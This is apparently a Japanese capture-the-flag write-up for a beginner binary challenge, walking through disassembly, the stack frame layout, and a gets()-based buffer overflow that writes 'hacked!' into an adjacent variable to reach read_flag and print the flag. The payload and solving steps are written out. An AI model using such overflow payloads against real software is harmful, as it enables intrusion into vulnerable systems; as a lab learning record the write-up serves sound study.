 # first 

## access

```
nc localhost 4101
```

## solve

```python
from pwn import *

io = remote("0.0.0.0", 4101)
```
この問題解いててスタックフレームについての誤解が解けた
sub rsp,0x30でローカル変数のエリアを確保
変数は\*sと\*s2があって、\*s2は0038(0x30 - 0xa)から0x30(0048)までで、
\*sは0038までのエリア。

           ; var char *s @ rbp-0x30
│           ; var char \*s2 @ rbp-0xa
│           0x004011ed      f30f1efa       endbr64
│           0x004011f1      55             push rbp
│           0x004011f2      4889e5         mov rbp, rsp
│           0x004011f5      4883ec30       sub rsp, 0x30
見るからにflagを呼んでくれそうなread_flagがあってその手前でjampしてる。
jneを調べると等しくないと飛ぶらしい。
ででで、なにかcmpしてるなって気づく。
よく見たら、第一引数のrdiにstr.hacked入れてるじゃんってなる。
第二引数のrsiにはs2が入ってるなってことにも気づく。
getsはsに対して行っているのでsを溢れさせてs2の域にhacked!って書けばよさげ??


│           0x00401216      e8b5feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121b      488d45f6       lea rax, [s2]
│           0x0040121f      4889c6         mov rsi, rax                ; const char *s2
│           0x00401222      488d3dfd0d00.  lea rdi, str.hacked         ; 0x402026 ; "hacked!"t char *s1
│           0x00401229      e892feffff     call sym.imp.strcmp         ; int strcmp(const chaconst char \*s2)
│           0x0040122e      85c0           test eax, eax
│       ┌─< 0x00401230      750a           jne 0x40123c
│       │   0x00401232      b800000000     mov eax, 0
│       │   0x00401237      e89affffff     call sym.read_flag
│       │   ; CODE XREF from main @ 0x401230
│       └─> 0x0040123c      488d45d0       lea rax, [s]

python3 -c "print('a'\*(0x30 - 0xa))"
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa←こぴーして

[vagrant@fedora32 challenge]$ nc localhost 4101
What's your name?
> aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaahacked!
flag{Y0u_kn0w_st4ck_0v3r_wr1t3}

aのあとにhacked!ってつけたら出来上がり！！
今回の教訓は
 ; var char \*s @ rbp-0x30
 ; var char \*s2 @ rbp-0xa
これは同じスタックフレーム内の話なんだよってこと。
てっきり、0x30のしたに0xaが伸びると誤解してしまってた。
(よく見ればrdp - って書いてあるじゃん…ｗ)
